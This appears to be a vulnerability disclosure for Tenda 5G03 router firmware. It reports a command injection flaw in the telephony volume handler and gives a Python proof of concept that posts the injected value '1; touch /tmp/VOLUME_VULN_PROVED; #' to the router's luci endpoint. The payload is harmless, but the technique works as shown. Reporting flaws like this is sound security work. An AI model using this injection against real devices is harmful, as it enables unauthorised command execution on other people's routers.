


Submittion Date: 2026.3.16  
Vendor: 5G03  
Firmware: V05.03.02.04 (Version 1.0)  
Download Link: https://www.tenda.com.cn/material/show/4058  

In /usr/lib/lua/luci/controller/admin/telephony.lua, the function ```action_set_volume``` handles the important parameter string ```volume``` without checking it, 
which leads to a command injection vulnerability. 




The potentially attacking vector is as follows:  
```py
import requests

TARGET_URL = "http://192.168.1.1/cgi-bin/luci/admin/telephony/trigger_call_set_volume"
COOKIES = {"sysauth": "session_id"}

cmd = "1; touch /tmp/VOLUME_VULN_PROVED; #"

data = {
    "set_volume": "1",
    "volume": cmd
}

try:
    response = requests.post(TARGET_URL, data=data, cookies=COOKIES, timeout=10)
    if response.status_code == 200:
        print("[+] Attack successfully")
    else:
        print(f"[-] Attack failed")
except Exception as e:
    print(f"[-] Error: {e}")
```

